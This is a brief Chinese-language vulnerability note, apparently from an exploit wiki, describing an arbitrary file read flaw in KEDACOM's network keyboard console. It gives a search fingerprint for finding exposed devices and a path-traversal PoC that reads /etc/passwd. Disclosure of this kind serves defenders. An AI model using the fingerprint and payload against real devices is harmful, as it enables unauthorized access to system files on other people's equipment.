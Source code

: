 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>KEDACOM 网络键盘控制台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"网络键盘控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629778495373-5538cf42-58cb-4c98-94f4-3283820a9257.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791-20220313112704543.png)